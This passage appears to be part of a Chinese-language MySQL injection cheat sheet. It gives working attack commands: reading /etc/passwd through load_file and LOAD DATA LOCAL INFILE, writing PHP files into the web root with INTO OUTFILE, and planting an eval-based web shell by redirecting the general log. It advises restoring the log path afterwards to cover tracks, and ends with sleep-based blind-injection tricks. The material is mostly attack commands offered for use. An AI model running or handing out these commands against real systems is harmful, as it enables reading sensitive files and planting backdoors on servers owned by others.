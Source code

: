   - SELECT load_file('/etc/passwd');

- 在Windows下可利用UNC路径实现数据外带

  - LOAD DATA LOCAL INFILE读文件

  - LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE a fields terminated by ''

- 写文件

  - `SELECT '<?php phpinfo(); ?>' INTO OUTFILE '/var/www/html/1.php';`

### 利用日志读写文件

```shell
mysql> show variables like '%general%'#先看下当前mysql默认的日志位置在什么地方,'C:\ProgramData\MySQL\MySQL Server 5.5\Data\2008R2DC.log' 顺手把原来正常的日志路径稍微记录下,等会儿干完活儿再把它恢复回来
mysql> set global general_log = on#默认基本都是关闭的,不然这个增删改查的记录量可能会非常大
mysql> set global general_log_file = 'C:/Program Files (x86)/Apache Software Foundation/Apache2.2/htdocs/abouts.php'#此时,再把原本的日志文件位置指向到目标网站的物理路径
mysql> select '<?php eval($_POST[request]);?>'#开始写shell,这里就是个普通的shell,不免杀,如果有waf的话,可以用下面的免杀shell


##写完之后记得恢复
mysql> set global general_log_file = 'C:\phpStudy\MySQL\data\stu1.log';
mysql> set global general_log = off;
```



### 可以分支的语句

```
ELT(N ,str1 ,str2 ,str3 ,…)
函数使用说明：若 N = 1 ，则返回值为 str1 ，若 N = 2 ，则返回值为 str2 ，以此类推。 若 N 小于 1 或大于参数的数目，则返回值为 NULL 。 ELT() 是 FIELD() 的补数


```

```
FIELD(str, str1, str2, str3, ……)

mysql> select * from bsqli where id = 1 and field(1>1,sleep(1));
+----+--------+----------+
| id | name   | password |
+----+--------+----------+
|  1 | K0rz3n | 123456   |
+----+--------+----------+
1 row in set (2.00 sec)

mysql> select * from bsqli where id = 1 and field(1=1,sleep(1));
Empty set (1.00 sec)
```

```
if
```
